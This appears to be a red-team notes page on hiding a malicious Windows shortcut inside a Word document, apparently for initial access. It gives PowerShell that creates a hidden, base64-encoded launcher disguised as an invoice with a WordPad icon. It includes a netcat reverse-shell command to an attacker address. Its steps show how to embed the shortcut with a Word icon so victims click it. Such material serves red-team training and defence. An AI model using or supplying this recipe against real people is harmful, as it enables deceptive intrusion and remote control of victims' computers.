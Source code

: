 # ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```vba
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (124).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (285).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (88).png>)

![](<../../.gitbook/assets/image (138).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (129).png>)

Final result:

![](<../../.gitbook/assets/image (40).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2) (1).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (192).png>)
